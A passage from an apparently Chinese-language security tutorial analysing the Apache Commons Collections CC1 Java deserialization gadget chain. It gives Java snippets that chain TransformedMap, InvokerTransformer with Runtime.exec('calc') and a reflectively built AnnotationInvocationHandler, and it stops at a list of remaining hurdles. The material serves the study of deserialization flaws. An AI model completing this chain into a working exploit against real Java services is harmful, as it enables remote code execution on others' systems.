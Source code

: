 ‍

搞清楚逻辑后，其实这个`MapEntry` 就是遍历Map的键值对的一个静态类，在以下代码中就会触发他的方法(其实就是重写了`Map#setvalue`方法)

```java
        for (Map.Entry entry:transformedMap.entrySet()){
            entry.setValue("aaa");
        }
```

那其实就可以得到，只要去对这个键值对进行`setValue`方法即可触发

![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-03b15336ab8881fb1030004e9ea1291e311cff2a.png)

所以现在只要把我们的Runtime对象传入到value值即可触发任意方法调用

```java
        InvokerTransformer invokerTransformer = new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"});
        Runtime r = Runtime.getRuntime();
        HashMap<Object, Object> map = new HashMap<>();
        map.put("q","q");
        Map<Object,Object> transformedMap = TransformedMap.decorate(map,null,invokerTransformer);
        for (Map.Entry entry:transformedMap.entrySet()){
            entry.setValue(r);
        }
```

![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-db9631b1ef987ca5e88db1279cab498fc280d0c4.png)

那么我们后半条链子就连起来了，接下来就是去找哪个地方是存在`Entry`的遍历的，并且可以把对象传入的点

##### (4)`AnnotationInvocationHandler`

作者就找到了`jdk1.8.0_65\src\sun\reflect\annotation\AnnotationInvocationHandler.java` 中的 `readObject` 方法是调用了`setValue` ，那么其实已经找到`readObject`就非常好可以进行串联了

![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-0906d5473efdace05187cdc0e9118f330f73554c.png)

那我们来看一下他的构造方法

![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-827028a3b0d8eab8f3e9277636a0281c84ca3d3d.png)

也很简单，就是传一个注解和一个Map类，又因为他不是public类，所以必须得用反射去实例化他，那么就其实挺简单，就反射区实例化他即可，然后把我们设计好的`Entry`传给他即可

```java
        Class c =  Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor cl  =  c.getDeclaredConstructor(Class.class,Map.class);
        cl.setAccessible(true);
        cl.newInstance(Override.class,transformedMap);
```

但是这里仍然存在几个问题

- `Runtime`对象是不可以序列化的，需要用反射进行序列化
- `setValue`方法的参数貌似不可控
- 有两个if判断需要进去
